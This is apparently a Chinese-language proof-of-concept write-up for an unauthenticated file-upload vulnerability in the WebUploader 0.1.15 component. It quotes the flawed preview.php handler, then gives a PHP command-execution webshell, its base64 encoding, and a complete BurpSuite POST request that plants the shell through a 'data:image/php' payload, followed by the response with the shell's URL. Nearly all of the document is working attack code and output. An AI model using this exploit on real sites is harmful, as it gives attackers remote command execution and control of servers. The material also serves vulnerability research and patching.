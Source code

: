 # webuploader-v-0.1.15 组件存在文件上传漏洞(未授权)

#### 简介：百度WebUploader组件存在文件上传漏洞。该漏洞是由于WebUploader组件上传页面对文件类型或文件扩展名过滤不严所致，攻击者可利用漏洞直接上传或简单绕过限制上传脚本文件，执行系统命令，获取网站服务器权限。

#### server/preview.php
```
if (preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)) {

    $previewUrl = sprintf(
        "%s://%s%s",
        isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',
        $_SERVER['HTTP_HOST'],
        $_SERVER['REQUEST_URI']
    );
    $previewUrl = str_replace("preview.php", "", $previewUrl);


    $base64 = $matches[2];
    $type = $matches[1];
    if ($type === 'jpeg') {
        $type = 'jpg';
    }

    $filename = md5($base64).".$type";
    $filePath = $DIR.DIRECTORY_SEPARATOR.$filename;

    if (file_exists($filePath)) {
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    } else {
        $data = base64_decode($base64);
        file_put_contents($filePath, $data);
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    }
```

#### php_webshell

```
<?php
    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }
    phpinfo();
?>
```

#### base64 encode

```
PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=
```

## 0x01 POST upload php webshell

`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`
![](./burpsuite.jpg)
#### BurpSuite Requests
```
POST /webuploader-0.1.15-Demo/server/preview.php HTTP/1.1
Host: 192.168.2.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 298
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

data:image/php;base64,PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=

```
#### BurpSuite Response
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2019 05:40:48 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a
X-Powered-By: PHP/5.5.9
Connection: close
Content-Type: text/html
Content-Length: 142

{"jsonrpc" : "2.0", "result" : "http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php", "id" : "id"}
```

#### webshell
`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php`

![](./phpinfo.jpg)

![](./cmd.jpg)
